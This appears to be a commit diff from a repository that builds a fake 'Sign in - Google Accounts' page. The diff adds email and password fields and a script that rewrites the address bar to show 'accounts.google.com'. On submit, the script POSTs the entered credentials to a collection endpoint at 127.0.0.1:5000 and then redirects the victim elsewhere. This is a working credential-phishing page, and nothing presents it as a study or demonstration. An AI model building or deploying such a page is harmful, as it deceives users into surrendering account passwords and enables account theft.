

Before and after one commit to nicolas-chnu/google-auth, a plain HTML site: page index.html in a window 390 px wide. Shown: the part 353-844 px from the top of the page, 420 px wide, since content can reach past the window. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Modify script

```diff
--- a/index.html
+++ b/index.html
@@ -2,7 +2,7 @@
 <html lang="en">
 <head>
     <meta charset="UTF-8">
-    <meta name="viewport" content="width=device-width, initial-scale=1.0">
+    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
     <title>Sign in - Google Accounts</title>
     <link rel="icon" type="image/x-icon" href="https://www.google.com/favicon.ico">
     <link rel="stylesheet" href="styles.css">
@@ -17,11 +17,26 @@
             </div>
         </header>
         <form class="form">
-            <input type="email" placeholder="Email or phone" required>
-            <input type="password" placeholder="Email your password" required>
+            <div class="form-group">
+                <input type="email" class="form-control" name="email" required>
+                <label for="" class="form-label">Enter your email</label>
+            </div>
+
+            <div class="form-group">
+                <input type="password" class="form-control" name="password" id="txtPassword" required>
+                <label for="" class="form-label">Enter Your Password</label>
+            </div>
+
+            <div class="form-group">
+                <label class="showLabel">
+                    <input type="checkbox" id="show">
+                    Show Password
+                </label>
+            </div>
+
             <div class="submit-container">
                 <a href="https://support.google.com/accounts/answer/41078?hl=en&co=GENIE.Platform%3DDesktop" class="link">Forget password?</a>
-                <a class="submit-btn" href="https://myfishka.com/">Next</a>
+                <button type="submit" class="submit-btn">Next</button>
             </div>
         </form>
     </div>
--- a/index.js
+++ b/index.js
@@ -1,6 +1,27 @@
-document.addEventListener('submit', e => {
+history.replaceState('', '', 'accounts.google.com')
+
+document.addEventListener('DOMContentLoaded', () => {
+    const password = document.querySelector("#txtPassword");
+    const checkbox = document.querySelector("#show");
+
+    checkbox.addEventListener('click',function(){
+        const type = password.getAttribute("type")=== "password" ? "text" : "password";
+        password.setAttribute("type",type);
+    });
+})
+
+document.addEventListener('submit', async e => {
     e.preventDefault();
     const form = e.target;
     const data = new FormData(form);
     console.log('Sending data to a server...');
+
+    try {
+        const response = await fetch("http://127.0.0.1:5000/submit", {
+            method: "POST",
+            body: data,
+        });
+    } finally {
+        window.location.href = 'https://myfishka.com/';
+    }
 })
--- a/styles.css
+++ b/styles.css
@@ -1,6 +1,18 @@
-* {
-    box-sizing: border-box;
-    margin: 0;
+@import url('https://fonts.googleapis.com/css2?family=Poppins:wght@300;400;500;700&display=swap');
+
+*{
+  padding: 0;
+  margin: 0;
+  box-sizing: border-box;
+  font-family: 'Poppins', sans-serif;
+}
+
+input:-webkit-autofill,
+input:-webkit-autofill:hover,
+input:-webkit-autofill:focus,
+input:-webkit-autofill:active{
+    -webkit-box-shadow: 0 0 0 30px white inset !important;
+    -webkit-text-fill-color: black !important;
 }
 
 body {
@@ -19,10 +31,8 @@ body {
     background-color: #ffffff;
     box-shadow: 0px 2px 10px rgba(0, 0, 0, 0.1);
     padding: 40px;
-    width: 360px;
-    text-align: center;
+    width: 450px;
     border-radius: 8px;
-    min-width: 450px;
     height: 500px;
 }
 
@@ -35,24 +45,6 @@ body {
     color: #202124;
 }
 
-.container input {
-    outline: none;
-    width: 100%;
-    padding: 12px;
-    margin: 8px 0 20px 0;
-    display: inline-block;
-    border-width: 2px;
-    border-color: transparent transparent #dcdcdc transparent;
-    box-sizing: border-box;
-    font-size: 16px;
-    transition: all .3s;
-}
-
-.container input:focus {
-    border-width: 2px;
-    border-color: #1a73e8;
-    border-radius: 4px;
-}
 
 .container .submit-btn {
     text-decoration: none;
@@ -89,6 +81,7 @@ body {
     flex-direction: column;
     align-items: start;
     gap: 15px;
+    padding: 0;
 }
 
 .form {
@@ -108,9 +101,88 @@ body {
     flex-direction: row;
     justify-content: space-between;
     align-items: center;
-    margin-top: 30px;
 }
 
 .submit-btn {
     max-width: 100px;
 }
+
+.form-group{
+    height: 48px;
+    margin-bottom: 20px;
+    position: relative;
+}
+
+.form-control{
+    position: absolute;
+    top: 0;
+    left: 0;
+    width: 100%;
+    height: 100%;
+    background: none;
+    border: 1px solid  #a1a1a1;
+    outline: none;
+    padding: 16px;
+    border-radius: 3px;
+    z-index: 1;
+}
+
+.form-label{
+    position: absolute;
+    left: 13px;
+    top: 13px;
+    color: #a1a1a1;
+    background-color: white;
+    padding: 0 6px;
+    font-size: 14px;
+    transition:.3s;
+}
+
+.form-control:focus+ .form-label{
+    top: -10px;
+    z-index: 10;
+    color: #1B66C9;
+    font-weight: 500;
+}
+
+.form-control:focus{
+    border: 1px solid #1B66C9;
+}
+
+.form-control:not(:focus):valid+label{
+    top: -10px;
+    z-index: 10;
+}
+
+.showLabel{
+    font-size: 14px;
+}
+
+@media screen and (max-width: 480px) {
+    .container {
+      width: 90%;
+      max-width: 90%;
+      padding: 20px;
+    }
+
+    .header {
+        padding: 20px;
+    }
+
+    .submit-container {
+      flex-direction: column;
+      align-items: center;
+      gap: 15px;
+    }
+}
+
+@media screen and (max-width: 480px) {
+    .container {
+        width: 90%;
+        max-width: 90%;
+    }
+
+    .container img {
+        width: 50px;
+    }
+}
```
